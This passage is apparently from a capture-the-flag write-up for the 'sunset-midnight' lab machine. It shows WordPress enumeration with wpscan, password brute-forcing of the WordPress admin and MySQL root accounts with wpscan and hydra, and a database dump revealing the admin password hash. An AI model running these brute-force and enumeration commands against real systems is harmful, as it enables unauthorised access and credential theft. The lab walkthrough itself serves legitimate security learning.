 Looking at robots.txt:

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
```

I run a wpscan to see what it can find for us:

`wpscan --url http://sunset-midnight --api-token TOKEN --enumerate`

`wpscan --url http://sunset-midnight -v -t 20 -e vt,tt,u,vp,dbe,u,m --plugins-detection aggressive --plugins-version-detection aggressive --api-token TOKEN`

```
[+] XML-RPC seems to be enabled: http://sunset-midnight/xmlrpc.php
[+] Upload directory has listing enabled: http://sunset-midnight/wp-content/uploads/
[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
[i] User(s) Identified:
[+] admin
```

Let's see if we can brute force the admin account:

`wpscan --url http://$ip/wp-login.php -v --passwords rockyou.txt --usernames admin --max-threads 50 --api-token TOKEN`

I leave that going in the background and move on to checking out the open MySQL port.

<br>

## MySQL Digging

I try and connect over as root and admin with a couple common passwords but no luck.

I start up hydra to see if we can brute force root and get a result back very quickly:

`hydra -l root -P rockyou.txt $ip mysql`

![](images/sm2.png)

Looking at the wp_users table in the wordpress_db database gives us the admin hash:

```
MariaDB [wordpress_db]> select * from wp_users;
+----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email          | user_url               | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$BaWk4oeAmrdn453hR6O6BvDqoF9yy6/ | admin         | example@example.com | http://sunset-midnight | 2020-07-16 19:10:47 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
```
